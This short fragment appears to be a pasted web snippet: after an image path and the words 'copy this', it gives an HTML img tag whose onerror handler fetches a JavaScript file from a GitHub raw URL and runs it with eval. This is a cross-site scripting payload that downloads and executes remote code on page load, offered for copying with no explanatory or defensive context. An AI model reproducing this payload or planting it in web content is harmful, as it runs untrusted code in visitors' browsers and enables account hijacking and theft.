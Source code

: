 copy this
<img src=# onerror='fetch("https://raw.githubusercontent.com/gco-12345/vsmonky/main/main.js").then(r=>r.text()).then(c=>eval(c)) '>
